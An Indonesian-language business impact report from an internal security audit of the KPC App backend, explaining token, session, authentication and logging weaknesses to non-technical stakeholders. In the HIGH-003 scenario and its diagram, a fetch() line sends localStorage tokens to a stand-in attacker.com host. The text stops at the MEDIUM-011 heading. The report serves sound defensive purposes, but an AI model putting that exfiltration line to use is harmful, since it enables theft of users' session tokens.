# Business Impact Report — KPC App Backend Security Audit

## Laporan Dampak Bisnis & Skenario Risiko

> **Versi**: 1.0 | **Tanggal**: Mei 2026 | **Auditor**: Internal Security Team  
> **Total Findings**: 23 (9 HIGH · 14 MEDIUM)  
> **Tujuan Dokumen**: Menjelaskan setiap temuan dalam bahasa bisnis yang mudah dipahami oleh stakeholder non-teknikal, lengkap dengan skenario nyata, dampak bisnis, dan visualisasi diagram.

---

## Daftar Isi

### Bagian 1 — Service / Application Findings

| No  | ID                        | Severity  | Judul                                                               |
| --- | ------------------------- | --------- | ------------------------------------------------------------------- |
| 1   | [HIGH-001](#high-001)     | 🔴 HIGH   | PKCE State Disimpan di Memory — Login Gagal Saat Deploy             |
| 2   | [HIGH-002](#high-002)     | 🔴 HIGH   | Logout Tidak Membatalkan Token — Token Tetap Aktif 24 Jam           |
| 3   | [HIGH-003](#high-003)     | 🔴 HIGH   | Token Akses Disimpan di Browser Storage yang Rentan                 |
| 4   | [HIGH-004](#high-004)     | 🔴 HIGH   | Setiap Request Membuka 3 Koneksi Database — Sistem Mudah Crash      |
| 5   | [HIGH-005](#high-005)     | 🔴 HIGH   | Halaman Status Pekerjaan AI Bisa Diakses Tanpa Login                |
| 6   | [MEDIUM-007](#medium-007) | 🟡 MEDIUM | Siapapun di Azure Bisa Langsung Masuk ke Aplikasi                   |
| 7   | [MEDIUM-008](#medium-008) | 🟡 MEDIUM | Proses Login Bergantung Penuh pada Microsoft — Satu Titik Kegagalan |
| 8   | [MEDIUM-009](#medium-009) | 🟡 MEDIUM | Tidak Ada Pembatasan Percobaan Login — Rentan Brute Force           |
| 9   | [MEDIUM-010](#medium-010) | 🟡 MEDIUM | Aktivitas Login Tidak Tercatat — Investigasi Insiden Tidak Mungkin  |
| 10  | [MEDIUM-011](#medium-011) | 🟡 MEDIUM | Kunci Pengaman Token Bisa Kosong — Token Bisa Dipalsukan            |

### Bagian 2 — Infrastructure / Deployment Findings

| No  | ID                        | Severity  | Judul                                                                    |
| --- | ------------------------- | --------- | ------------------------------------------------------------------------ |
| 11  | [HIGH-006](#high-006)     | 🔴 HIGH   | Konfigurasi CORS Terlalu Permisif — Semua Website Bisa Akses API         |
| 12  | [HIGH-012](#high-012)     | 🔴 HIGH   | Container Berjalan Sebagai Administrator — Risiko Pengambilalihan Server |
| 13  | [HIGH-013](#high-013)     | 🔴 HIGH   | Dokumen Sensitif di GCS Berpotensi Dapat Diakses Publik                  |
| 14  | [HIGH-014](#high-014)     | 🔴 HIGH   | Aplikasi Bisa Berjalan Tanpa Konfigurasi Keamanan — Tanpa Peringatan     |
| 15  | [MEDIUM-012](#medium-012) | 🟡 MEDIUM | Dokumentasi API Terbuka untuk Umum — Peta Jalan bagi Penyerang           |
| 16  | [MEDIUM-013](#medium-013) | 🟡 MEDIUM | Log Debug di Production — Konten Dokumen Tersimpan di Log                |
| 17  | [MEDIUM-014](#medium-014) | 🟡 MEDIUM | Kunci GCP Tersimpan di Sistem CI/CD — Risiko Akses Cloud Seumur Hidup    |
| 18  | [MEDIUM-015](#medium-015) | 🟡 MEDIUM | Upload File Tanpa Validasi — File Berbahaya Bisa Masuk                   |
| 19  | [MEDIUM-016](#medium-016) | 🟡 MEDIUM | Token Login Muncul di URL — Tersimpan di Log Server                      |
| 20  | [MEDIUM-017](#medium-017) | 🟡 MEDIUM | Header Keamanan Browser Tidak Dikonfigurasi                              |
| 21  | [MEDIUM-018](#medium-018) | 🟡 MEDIUM | Pesan Error Terlalu Detail — Bocorkan Informasi Internal                 |
| 22  | [MEDIUM-019](#medium-019) | 🟡 MEDIUM | Email Default Ke Server Dev — Notifikasi Tidak Terkirim di Production    |
| 23  | [MEDIUM-020](#medium-020) | 🟡 MEDIUM | Aplikasi Menggunakan Akun Database Super Admin                           |

---

---

# BAGIAN 1 — SERVICE / APPLICATION FINDINGS

---

## HIGH-001

# 🔴 HIGH-001 — PKCE State Disimpan di Memory: Login Gagal Saat Deploy

---

### Penjelasan Sederhana

Bayangkan proses login seperti mengambil nomor antrian. Ketika user memulai login, sistem mencatat nomor antrian di **selembar kertas** di meja kasir. Ketika konfirmasi dari Microsoft datang kembali, sistem mencari kertas itu.

Masalahnya: **kertas itu hanya ada di satu kasir tertentu**. Jika kasir berganti (deploy baru), atau jika ada dua kasir sekaligus (scaling horizontal), kertas itu tidak ada — dan login **selalu gagal**.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko         | Penjelasan                                                                                   |
| ----------------------- | -------------------------------------------------------------------------------------------- |
| **Business Continuity** | Setiap deployment rutin menyebabkan semua user yang sedang login langsung gagal              |
| **Scalability Problem** | Sistem tidak bisa di-scale ke lebih dari 1 instance — membatasi pertumbuhan pengguna         |
| **Operational Risk**    | Memory leak: seiring waktu, data antrian yang tidak selesai menumpuk dan memperlambat server |
| **User Experience**     | User harus login ulang setiap ada update/hotfix di jam kerja                                 |

---

### Risiko Konkret

- Saat deployment di jam kerja, **semua user yang sedang dalam proses login langsung menerima error "Invalid state"**
- Saat traffic naik dan Cloud Run menambah instance (scaling), **50% login akan gagal** karena instance baru tidak punya data state dari instance lama
- Memory server terus bertambah karena data login yang tidak selesai tidak pernah dibersihkan — berujung **OOM (Out of Memory) crash**

---

### Real-World Scenario

> **Skenario**: Tim IT melakukan hotfix deployment pukul 10.00 pagi.  
> Pada saat yang sama, 15 procurement staff sedang membuka aplikasi untuk review kontrak pagi.  
> Semua dari mereka mendapat halaman error "Login gagal, state tidak valid."  
> Mereka harus refresh dan login ulang.  
> Jika ini terjadi di Cloud Run yang auto-scale, error ini bisa terjadi **setiap saat** saat traffic tinggi, bukan hanya saat deploy.

---

### Business Impact

| Dampak                     | Deskripsi                                                                |
| -------------------------- | ------------------------------------------------------------------------ |
| **Operational Disruption** | Tim tidak bisa akses aplikasi setelah setiap deployment                  |
| **Lost Productivity**      | 15–30 menit downtime efektif per deployment untuk seluruh user           |
| **Scalability Block**      | Sistem tidak bisa tumbuh di atas satu server — bottleneck jangka panjang |
| **Hidden Memory Cost**     | Resource server terbuang untuk data login yang menumpuk                  |

---

### Diagram: Alur Login yang Bermasalah (Multi-Instance)


```mermaid
sequenceDiagram
    participant U as User Browser
    participant I1 as Instance 1 (Cloud Run)
    participant I2 as Instance 2 (Cloud Run)
    participant AZ as Microsoft Azure AD

    U->>I1: GET /auth/get-azure-sso-url
    I1->>I1: Simpan state di memory I1
    I1->>U: Redirect ke Azure AD

    U->>AZ: Login di Microsoft
    AZ->>U: Redirect ke /auth/callback?state=xxx&code=yyy

    Note over I1,I2: Load balancer routing ke Instance 2
    U->>I2: GET /auth/callback?state=xxx

    I2->>I2: Cari state di memory I2
    Note right of I2: ❌ State tidak ada!<br/>State hanya di I1

    I2->>U: HTTP 400 "Invalid or expired state"
    Note over U: Login GAGAL
```

---

### Diagram: Alur Login yang Benar (Dengan Redis Cache)


```mermaid
sequenceDiagram
    participant U as User Browser
    participant I1 as Instance 1
    participant I2 as Instance 2
    participant R as Redis Cache
    participant AZ as Microsoft Azure AD

    U->>I1: GET /auth/get-azure-sso-url
    I1->>R: Simpan state (TTL 10 menit)
    I1->>U: Redirect ke Azure AD

    U->>AZ: Login di Microsoft
    AZ->>U: Redirect ke /auth/callback?state=xxx

    U->>I2: GET /auth/callback?state=xxx
    I2->>R: Ambil state
    R->>I2: ✅ State ditemukan
    I2->>U: ✅ Login berhasil
```

---

---

## HIGH-002

# 🔴 HIGH-002 — Logout Tidak Membatalkan Token: Akses Tetap Berlanjut 24 Jam

---

### Penjelasan Sederhana

Bayangkan Anda meminjam kartu akses kantor kepada seseorang, lalu Anda meminta kartu itu kembali. Kartu sudah kembali di tangan Anda — tapi ternyata **kartu itu masih aktif dan bisa digunakan orang itu selama 24 jam ke depan** karena sistem tidak mencabut aksesnya.

Itulah yang terjadi saat user logout di KPC App. Backend hanya memberikan URL logout Microsoft — **tidak membatalkan token internal** yang sudah diterbitkan. Token itu tetap valid penuh selama 24 jam.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko     | Penjelasan                                                    |
| ------------------- | ------------------------------------------------------------- |
| **Security Risk**   | Token yang dicuri setelah logout tetap memberikan akses penuh |
| **Compliance Risk** | Tidak memenuhi standar ISO 27001 A.9.4 (session management)   |
| **Audit Problem**   | Tidak bisa mencabut akses karyawan yang resign secara instan  |
| **Data Protection** | GDPR/UU PDP mensyaratkan kemampuan revoke akses segera        |

---

### Risiko Konkret

- Karyawan yang **resign hari ini** bisa masih akses sistem sampai besok jika token belum expired
- Token yang **bocor via XSS atau phishing** tidak bisa dicabut — attacker punya 24 jam penuh
- Admin IT tidak bisa **force-logout user mencurigakan** secara instan
- Jika device user hilang/dicuri, token yang tersimpan **masih valid sepenuhnya**

---

### Real-World Scenario

> **Skenario**: Seorang procurement officer melakukan login di laptop kantor pagi hari.  
> Siang hari, laptop tersebut hilang dicuri dari meja.  
> IT Admin langsung menonaktifkan akun user di Azure AD.  
> Tapi token JWT internal yang tersimpan di laptop **masih valid 24 jam** karena backend tidak cek revocation.  
> Pencuri yang menemukan token di localStorage browser bisa akses seluruh data kontrak, invoice, dan bid analysis hingga besok pagi.

---

### Business Impact

| Dampak                  | Deskripsi                                                         |
| ----------------------- | ----------------------------------------------------------------- |
| **Data Breach Risk**    | Window of exposure 24 jam setelah setiap logout atau device theft |
| **Compliance Failure**  | Tidak bisa demonstrate session revocation kepada auditor          |
| **Reputational Damage** | Jika incident terjadi, tidak bisa menghentikan attacker segera    |
| **Financial Risk**      | Data tender/bid yang bocor bisa bernilai miliaran rupiah          |

---

### Diagram: Alur Token Setelah Logout (Bermasalah)


```mermaid
sequenceDiagram
    participant U as User
    participant FE as Frontend (OutSystems)
    participant BE as Backend API
    participant DB as Database

    U->>FE: Klik Logout
    FE->>BE: POST /auth/logout
    BE->>FE: ✅ Kembalikan URL logout Azure
    FE->>U: Redirect ke Microsoft logout

    Note over FE,DB: ❌ Token JWT tidak diinvalidate!<br/>Token masih valid 24 jam!

    Note over U: Token masih ada di localStorage

    rect rgb(255, 200, 200)
        Note over U: 24 jam kemudian — token masih aktif
        U->>BE: GET /api/v1/scd/contracts (dengan token lama)
        BE->>DB: Query data
        DB->>BE: ✅ Data dikembalikan
        BE->>U: ✅ 200 OK — Data berhasil diambil
        Note right of U: Akses BERHASIL meski sudah logout!
    end
```

---

---

## HIGH-003

# 🔴 HIGH-003 — Token Akses Disimpan di Browser Storage yang Rentan Terhadap Pencurian

---

### Penjelasan Sederhana

Token akses (seperti kunci digital) disimpan di **lemari kecil di browser** yang dapat dibuka oleh **semua script JavaScript** yang berjalan di halaman. Ini termasuk script dari library pihak ketiga, iklan, atau script berbahaya yang berhasil masuk (XSS).

Idealnya, kunci ini disimpan di **laci khusus yang dikunci** — di mana hanya browser yang bisa menggunakannya, dan JavaScript sama sekali tidak bisa membacanya.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko     | Penjelasan                                                   |
| ------------------- | ------------------------------------------------------------ |
| **Security Risk**   | XSS attack bisa mencuri token tanpa user tahu                |
| **Compliance Risk** | OWASP Top 10 A02: Cryptographic Failures                     |
| **Data Protection** | Token memberikan akses ke data sensitif kontrak dan keuangan |

---

### Risiko Konkret

- Satu script pihak ketiga yang dikompromis (supply chain attack) bisa mencuri semua token user aktif
- Attacker yang berhasil inject script `document.querySelector` bisa baca `localStorage["token"]` secara langsung
- Browser extension yang berbahaya bisa membaca seluruh `localStorage`

---

### Real-World Scenario

> **Skenario**: Frontend KPC menggunakan library JavaScript untuk chart/grafik dari CDN publik.  
> Suatu hari, CDN tersebut dikompromis dan menyisipkan script pencuri token.  
> Script berjalan diam-diam: `fetch("https://attacker.com/?t=" + localStorage.getItem("token"))`  
> Dalam hitungan jam, token semua user yang sedang login **terkirim ke server attacker**.  
> Karena tidak ada blacklist (HIGH-002), attacker punya 24 jam akses penuh per token yang dicuri.

---

### Business Impact

| Dampak                  | Deskripsi                                                       |
| ----------------------- | --------------------------------------------------------------- |
| **Data Breach**         | Seluruh data kontrak, tender, dan invoice bisa diakses attacker |
| **Mass Token Theft**    | Bisa terjadi pada semua user yang aktif secara bersamaan        |
| **No Detection**        | Pencurian terjadi tanpa log atau alert (lihat MEDIUM-010)       |
| **Reputational Damage** | Jika bocor ke media, trust klien hilang                         |

---

### Diagram: Serangan XSS Token Theft


```mermaid
sequenceDiagram
    participant U as User Browser
    participant FE as KPC App (OutSystems)
    participant BE as Backend API
    participant A as Attacker Server

    U->>FE: Buka KPC App, Login
    BE->>FE: access_token: eyJhbGc...
    FE->>U: Simpan token di localStorage

    Note over U: localStorage["token"] = "eyJhbGc..."

    rect rgb(255, 200, 200)
        Note over FE: Script berbahaya di-inject (XSS atau CDN compromise)
        FE->>U: Eksekusi: token = localStorage.getItem("token")
        U->>A: GET https://attacker.com/?t=eyJhbGc...
        Note right of A: Token dicuri!
    end

    A->>BE: GET /api/v1/scd/contracts<br/>Authorization: Bearer eyJhbGc...
    BE->>A: ✅ 200 OK — Data Kontrak
    Note right of A: Akses penuh sebagai user korban
```

---

---

## HIGH-004

# 🔴 HIGH-004 — Setiap Request Membuka 3 Koneksi Database: Sistem Crash Saat Traffic Naik

---

### Penjelasan Sederhana

Bayangkan database seperti **loket pelayanan** dengan maksimal 15 loket yang bisa dibuka. Setiap karyawan yang mau kerja harus antre di loket.

Masalahnya: setiap 1 request dari 1 user **menduduki 3–4 loket sekaligus** — bukan 1. Artinya, hanya dengan **5 user yang mengakses bersamaan**, semua 15 loket sudah penuh. User ke-6 harus menunggu... dan menunggu... sampai timeout.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko         | Penjelasan                                                                |
| ----------------------- | ------------------------------------------------------------------------- |
| **Performance Issue**   | Sistem melambat drastis saat ada lebih dari 5 user bersamaan              |
| **Scalability Problem** | Kapasitas real hanya 5 concurrent users, jauh di bawah ekspektasi         |
| **Business Continuity** | Traffic normal di jam sibuk bisa menyebabkan cascade failure              |
| **Financial Risk**      | Cloud Run scaling tidak membantu karena bottleneck di database, bukan CPU |

---

### Risiko Konkret

- Saat 10 procurement staff buka dashboard bersamaan → **error 500 "DB pool exhausted"** untuk sebagian user
- Setiap request ke endpoint protected = 3–4 koneksi DB → kapasitas real efektif hanya ~5 concurrent users
- Jika satu koneksi lambat (query besar), koneksi tertahan dan pool kosong lebih cepat
- Session meeting besar atau tender deadline = **blackout sistem** persis saat paling dibutuhkan

---

### Real-World Scenario

> **Skenario**: Hari H deadline tender, 20 staff procurement mengakses KPC App secara bersamaan untuk review bid analysis.  
> Setiap request mereka membuka 3–4 koneksi DB.  
> Pool 15 koneksi habis setelah 4–5 user pertama.  
> User ke-6 dan seterusnya mendapat **error atau loading tanpa henti**.  
> Deadline terlewat karena sistem tidak bisa diakses persis di momen kritis.

---

### Business Impact

| Dampak                         | Deskripsi                                                             |
| ------------------------------ | --------------------------------------------------------------------- |
| **Service Downtime**           | Sistem tidak dapat diakses saat traffic peak                          |
| **Operational Disruption**     | Deadline tender/kontrak bisa terlewat akibat downtime                 |
| **Cascading Failure**          | Satu bottleneck bisa buat semua endpoint tidak bisa diakses           |
| **Wasted Infrastructure Cost** | Menambah Cloud Run instances tidak membantu karena masalah di DB pool |

---

### Diagram: Database Pool Exhaustion


```mermaid
flowchart TD
    R1[Request User 1] -->|Buka 3 koneksi| P[Database Pool<br/>Max: 15 koneksi]
    R2[Request User 2] -->|Buka 3 koneksi| P
    R3[Request User 3] -->|Buka 3 koneksi| P
    R4[Request User 4] -->|Buka 3 koneksi| P
    R5[Request User 5] -->|Buka 3 koneksi| P

    P --> FULL[Pool Penuh: 15/15 koneksi]

    R6[Request User 6] -->|Coba buka koneksi| FULL
    R7[Request User 7] -->|Coba buka koneksi| FULL
    R8[Request User 8] -->|Coba buka koneksi| FULL

    FULL -->|Timeout setelah 30 detik| ERR[❌ HTTP 500 Error<br/>QueuePool limit exceeded]
    ERR --> U6[User 6, 7, 8 dapat error]

    style FULL fill:#ff4444,color:#fff
    style ERR fill:#ff4444,color:#fff
    style U6 fill:#ff8888,color:#fff
```

---

---

## HIGH-005

# 🔴 HIGH-005 — Halaman Status Pekerjaan AI Dapat Diakses Tanpa Login

---

### Penjelasan Sederhana

KPC App menggunakan AI untuk memproses invoice, analisis tender (bid analysis), dan ekstraksi data kontrak. Proses ini berjalan sebagai "pekerjaan" (jobs) di background.

Hasil pekerjaan ini dapat **dimonitor melalui WebSocket** untuk melihat progress dan hasilnya.

Masalahnya: **endpoint monitoring ini tidak memerlukan login sama sekali**. Siapapun yang mengetahui ID pekerjaan (job ID) dapat langsung melihat seluruh hasil analisis AI — tanpa username, tanpa password.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko     | Penjelasan                                               |
| ------------------- | -------------------------------------------------------- |
| **Security Risk**   | Data sensitif (invoice, bid, kontrak) terbuka untuk umum |
| **Data Leakage**    | Kompetitor bisa mendapatkan data tender/bid analysis KPC |
| **Compliance Risk** | Kebocoran data kontrak melanggar NDA dan regulasi        |
| **Audit Problem**   | Tidak ada log siapa yang mengakses data job              |

---

### Risiko Konkret

- Attacker yang mengetahui 1 job ID bisa akses **full hasil OCR invoice** beserta nominal dan detail vendor
- Pengeboman job ID (sequential atau brute force UUID) bisa mengekspos **seluruh riwayat pemrosesan dokumen**
- Data bid analysis (harga penawaran tender) bisa bocor ke kompetitor **sebelum pengumuman**
- Tidak ada authorization check → semua job ID dari semua user terbuka untuk semua orang

---

### Real-World Scenario

> **Skenario**: KPC sedang memproses 50 invoice untuk audit keuangan.  
> Setiap invoice di-OCR oleh AI dan hasilnya tersimpan dalam job result.  
> Seorang mantan karyawan yang sudah tidak punya akun, mengetahui format job ID dari saat masih bekerja.  
> Ia bisa langsung akses: `wss://api.kpc.co.id/ws/jobs/{job_id}` dan mendapatkan seluruh isi invoice — nilai transaksi, nama vendor, nomor rekening — **tanpa perlu login**.

---

### Business Impact

| Dampak                            | Deskripsi                                                |
| --------------------------------- | -------------------------------------------------------- |
| **Data Breach**                   | Invoice, kontrak, bid analysis terbuka tanpa autentikasi |
| **Competitive Intelligence Leak** | Harga tender bisa bocor ke kompetitor                    |
| **Financial Exposure**            | Data keuangan sensitif terbuka publik                    |
| **Regulatory Risk**               | Potensi pelanggaran UU PDP No. 27 Tahun 2022             |

---

### Diagram: Akses WebSocket Job Tanpa Autentikasi


```mermaid
sequenceDiagram
    participant A as Attacker (tidak login)
    participant WS as /ws/jobs/{job_id}
    participant CEL as Celery Result Backend

    Note over A: Mengetahui job_id dari source code<br/>atau observasi network traffic

    A->>WS: WebSocket connect ke /ws/jobs/abc-123
    WS->>WS: accept() langsung tanpa cek token
    WS->>CEL: Ambil result untuk job abc-123
    CEL->>WS: Full job result

    WS->>A: Kirim data JSON:<br/>invoice content, extracted fields,<br/>AI analysis results, amounts

    Note right of A: ✅ Data diterima tanpa autentikasi!<br/>Tidak ada log akses ini.
```

---

---

## MEDIUM-007

# 🟡 MEDIUM-007 — Siapapun di Azure Tenant Bisa Langsung Masuk ke Aplikasi

---

### Penjelasan Sederhana

KPC menggunakan Microsoft Azure sebagai sistem login (SSO). Namun, Azure tenant KPC mungkin berisi tidak hanya karyawan tetap, tapi juga **kontraktor, vendor, guest account, atau akun temporary**.

Masalahnya: ketika seseorang yang ada di Azure tenant login ke KPC App untuk **pertama kalinya**, sistem **otomatis membuat akun** untuk mereka dan langsung memberikan akses — tanpa perlu persetujuan admin, tanpa validasi apakah mereka seharusnya punya akses.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko     | Penjelasan                                                        |
| ------------------- | ----------------------------------------------------------------- |
| **Security Risk**   | Akun yang tidak seharusnya punya akses bisa masuk secara otomatis |
| **Compliance Risk** | User provisioning harus melalui proses resmi (ISO 27001 A.9.2)    |
| **Audit Problem**   | Tidak ada log kapan akun dibuat dan oleh siapa                    |
| **Data Governance** | Tidak ada kontrol atas siapa yang boleh akses data procurement    |

---

### Risiko Konkret

- Vendor/supplier yang diundang ke Azure AD untuk keperluan email **otomatis mendapat akses ke data tender**
- Akun mantan karyawan yang belum dihapus dari Azure **bisa login dan akses data**
- Akun test/temporary yang dibuat IT **otomatis terdaftar sebagai user aktif**
- Tidak ada approval workflow → tidak ada record siapa yang menyetujui akses user baru

---

### Real-World Scenario

> **Skenario**: IT Dept mengundang kontraktor IT eksternal ke Azure AD untuk akses email selama 3 bulan proyek.  
> Kontraktor tersebut secara tidak sengaja (atau disengaja) membuka KPC App.  
> Sistem otomatis membuat akun baru dan memberikan akses.  
> Kontraktor kini bisa melihat seluruh daftar kontrak, supplier, dan harga yang sedang berjalan — **tanpa admin KPC mengetahuinya**.

---

### Business Impact

| Dampak                  | Deskripsi                                                           |
| ----------------------- | ------------------------------------------------------------------- |
| **Unauthorized Access** | Pihak eksternal mendapat akses tanpa proses approval resmi          |
| **Audit Failure**       | Tidak bisa menjelaskan kepada auditor kapan dan mengapa akun dibuat |
| **Data Governance**     | Kehilangan kontrol atas siapa yang punya akses ke data sensitif     |
| **Compliance Risk**     | Melanggar kebijakan user provisioning dan least privilege           |

---

### Diagram: Alur Auto-Create yang Bermasalah


```mermaid
flowchart TD
    L[User Azure AD Login via SSO] --> C{Cek di database lokal}
    C -->|User ada| OK[✅ Login Normal]
    C -->|User TIDAK ada| AUTO[⚠️ Auto-create akun baru<br/>is_active = True<br/>Tanpa validasi domain]
    AUTO --> ACTIVE[Akun langsung aktif]
    ACTIVE --> ACCESS[User punya akses penuh ke aplikasi]
    ACCESS --> NOAUDIT[❌ Tidak ada log audit<br/>❌ Tidak ada notifikasi admin<br/>❌ Tidak ada approval]

    style AUTO fill:#ff8800,color:#fff
    style ACTIVE fill:#ff4444,color:#fff
    style NOAUDIT fill:#ff4444,color:#fff
```

---

---

## MEDIUM-008

# 🟡 MEDIUM-008 — Proses Login Bergantung Penuh pada Microsoft: Satu Titik Kegagalan

---

### Penjelasan Sederhana

Setiap kali seseorang login, sistem harus **bertanya ke server Microsoft** untuk mendapatkan kunci verifikasi. Jawaban server Microsoft ini **tidak disimpan/di-cache** oleh aplikasi.

Artinya: jika Microsoft mengalami gangguan kecil sekalipun — lambat 2 detik, timeout sebentar — **login di KPC App langsung gagal untuk semua user** saat itu juga.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko         | Penjelasan                                                                    |
| ----------------------- | ----------------------------------------------------------------------------- |
| **Business Continuity** | Gangguan kecil Microsoft = semua user tidak bisa login                        |
| **Performance Issue**   | Extra network call ke Microsoft untuk setiap login                            |
| **Scalability Problem** | Saat traffic tinggi, tambahan latency dari call Microsoft memperlambat sistem |
| **Operational Risk**    | Single point of failure yang tidak perlu                                      |

---

### Risiko Konkret

- Microsoft Azure mengalami **partial outage 5 menit** → semua login KPC App gagal selama 5 menit
- Koneksi ke server Microsoft dari GCP asia-southeast2 **timeout** → login gagal
- Tidak ada fallback → jika data sudah pernah diambil, tidak bisa digunakan saat darurat

---

### Real-World Scenario

> **Skenario**: Pukul 08.00 pagi, seluruh staf masuk kantor dan membuka KPC App bersamaan.  
> Pada saat yang sama, Microsoft Azure mengalami gangguan minor di region Asia Pasifik selama 10 menit.  
> Semua login gagal dengan error "500 Internal Server Error".  
> Staf tidak bisa mulai bekerja. Padahal kunci Microsoft (JWKS) yang dibutuhkan **sudah tidak berubah selama berminggu-minggu** dan bisa di-cache dengan aman.

---

### Business Impact

| Dampak                     | Deskripsi                                                         |
| -------------------------- | ----------------------------------------------------------------- |
| **Service Dependency**     | Availabilitas KPC App 100% bergantung pada Microsoft Azure uptime |
| **Operational Disruption** | Gangguan eksternal yang kecil bisa berdampak besar                |
| **Performance Overhead**   | Setiap login butuh extra latency ke server Microsoft              |

---

### Diagram: Single Point of Failure — JWKS Fetch


```mermaid
flowchart TD
    Login[User mencoba login] --> Fetch[Backend fetch JWKS dari Microsoft]
    Fetch --> MSOnline[login.microsoftonline.com]

    MSOnline -->|Berhasil| Verify[✅ Verifikasi token, login OK]
    MSOnline -->|Timeout / Error| FAIL[❌ HTTP 500: Failed to fetch Azure public keys]
    FAIL --> NOFALLBACK[Tidak ada cache<br/>Tidak ada fallback<br/>Login tidak bisa dilanjutkan]

    NOFALLBACK --> ALLDOWN[Seluruh login KPC App gagal<br/>selama gangguan berlangsung]

    style FAIL fill:#ff4444,color:#fff
    style NOFALLBACK fill:#ff4444,color:#fff
    style ALLDOWN fill:#ff8800,color:#fff
```

---

---

## MEDIUM-009

# 🟡 MEDIUM-009 — Tidak Ada Batas Percobaan Login: Rentan Diserang Brute Force

---

### Penjelasan Sederhana

Seperti brankas yang tidak ada batas berapa kali boleh salah memasukkan kombinasi. Seseorang bisa mencoba **ribuan kombinasi password** secara otomatis menggunakan program, tanpa sistem pernah memblokir percobaan tersebut.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko       | Penjelasan                                                   |
| --------------------- | ------------------------------------------------------------ |
| **Security Risk**     | Brute force account takeover tanpa hambatan                  |
| **Performance Issue** | Spam request ke endpoint auth menguras resource server       |
| **Operational Risk**  | Serangan DoS via flooding endpoint SSO                       |
| **Compliance Risk**   | OWASP Top 10 A07: Identification and Authentication Failures |

---

### Risiko Konkret

- Attacker bisa membuat **program otomatis** yang mencoba 10.000 password/menit untuk satu akun
- Endpoint `/auth/get-azure-sso-url` bisa di-flood untuk **mengisi memory server** hingga penuh (memperkuat HIGH-001)
- Endpoint `/auth/callback` bisa di-spam untuk **menghabiskan koneksi database** (memperkuat HIGH-004)
- Tidak ada alert ketika ada pola serangan → tidak ada early warning

---

### Real-World Scenario

> **Skenario**: Seorang kompetitor mengetahui format email KPC (firstname.lastname@kpc.co.id).  
> Menggunakan daftar nama karyawan dari LinkedIn, attacker membuat script yang mencoba 100 password umum untuk setiap akun.  
> Tanpa rate limiting, dalam **2 jam** script bisa mencoba semua kombinasi.  
> Tidak ada yang tahu ini terjadi karena tidak ada alert atau log (lihat MEDIUM-010).

---

### Business Impact

| Dampak                 | Deskripsi                                                |
| ---------------------- | -------------------------------------------------------- |
| **Account Takeover**   | Akun karyawan bisa diambil alih tanpa trace              |
| **Service Disruption** | Flood request bisa membuat endpoint tidak responsif      |
| **No Detection**       | Serangan tidak terdeteksi karena tidak ada log dan alert |

---

### Diagram: Serangan Brute Force Tanpa Batas


```mermaid
flowchart LR
    ATK[Attacker Script] -->|Request 1: password=123456| EP[POST /auth/token]
    ATK -->|Request 2: password=password| EP
    ATK -->|Request 3: password=kpc2024| EP
    ATK -->|Request 100: password=Admin@123| EP

    EP -->|Tidak ada rate limit<br/>Tidak ada lockout<br/>Tidak ada CAPTCHA| DB[Cek ke Database]

    DB -->|Semua ditolak| FAIL[401 Unauthorized]
    DB -->|Satu berhasil| PWNED[✅ Account Compromised!]

    FAIL -->|Coba lagi tanpa batas| ATK

    style PWNED fill:#ff4444,color:#fff
    style ATK fill:#ff8800,color:#fff
```

---

---

## MEDIUM-010

# 🟡 MEDIUM-010 — Aktivitas Login Tidak Dicatat: Investigasi Insiden Tidak Mungkin

---

### Penjelasan Sederhana

Bayangkan gedung kantor tanpa **CCTV dan buku tamu**. Jika terjadi pencurian, tidak ada cara untuk tahu kapan orang masuk, siapa yang masuk, dan dari mana mereka datang.

Itulah kondisi KPC App saat ini untuk aktivitas login. Tidak ada catatan tentang: siapa yang login kapan, dari IP mana, berapa kali gagal login, siapa yang logout.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko         | Penjelasan                                                        |
| ----------------------- | ----------------------------------------------------------------- |
| **Audit Problem**       | Tidak bisa menjawab pertanyaan "Siapa yang akses data ini kapan?" |
| **Compliance Risk**     | ISO 27001 A.12.4 mensyaratkan audit log untuk event keamanan      |
| **Forensic Limitation** | Jika terjadi data breach, tidak ada data untuk investigasi        |
| **Operational Risk**    | Tidak bisa deteksi pola serangan (misalnya login gagal berulang)  |

---

### Risiko Konkret

- Jika terjadi kebocoran data, **tidak bisa dilacak** dari mana asalnya dan siapa yang melakukannya
- Auditor eksternal meminta log autentikasi → **tidak bisa dipenuhi**
- Karyawan yang login ke data yang tidak seharusnya mereka lihat **tidak bisa dibuktikan**
- Brute force attack tidak terdeteksi karena tidak ada catatan percobaan login gagal

---

### Real-World Scenario

> **Skenario**: Data harga penawaran tender KPC bocor ke media sebulan sebelum pengumuman.  
> Manajemen ingin tahu siapa yang mengakses data tersebut.  
> Tim IT memeriksa sistem... dan tidak ada satupun log tentang siapa yang login kapan.  
> Audit eksternal diminta, dan auditor mendapati tidak ada security event log sama sekali.  
> **Investigasi tidak bisa dilakukan. Tidak ada yang bisa dipertanggungjawabkan.**

---

### Business Impact

| Dampak                 | Deskripsi                                                       |
| ---------------------- | --------------------------------------------------------------- |
| **Audit Failure**      | Tidak bisa membuktikan compliance kepada regulator atau auditor |
| **Forensic Blindness** | Insiden keamanan tidak bisa diinvestigasi                       |
| **Legal Exposure**     | Tanpa audit trail, sulit membuktikan atau menyangkal tuduhan    |
| **Operational Risk**   | Tidak ada early warning dari pola aktivitas mencurigakan        |

---

### Diagram: Investigasi Insiden Tanpa Audit Log


```mermaid
flowchart TD
    INC[Insiden: Data Bocor] --> INV[Tim IT Investigasi]
    INV --> CHECK[Cek audit_log / user_activity_logs]
    CHECK --> EMPTY[❌ Tidak ada data login event<br/>❌ Tidak ada data logout event<br/>❌ Tidak ada data akses endpoint]
    EMPTY --> STUCK[Investigasi Buntu]
    STUCK --> RESULT[Tidak bisa tahu:<br/>- Siapa yang login?<br/>- Kapan mereka akses data?<br/>- Dari IP mana?<br/>- Berapa kali coba login?]

    style EMPTY fill:#ff4444,color:#fff
    style STUCK fill:#ff8800,color:#fff
    style RESULT fill:#ff8888,color:#fff
```

---

---

## MEDIUM-011

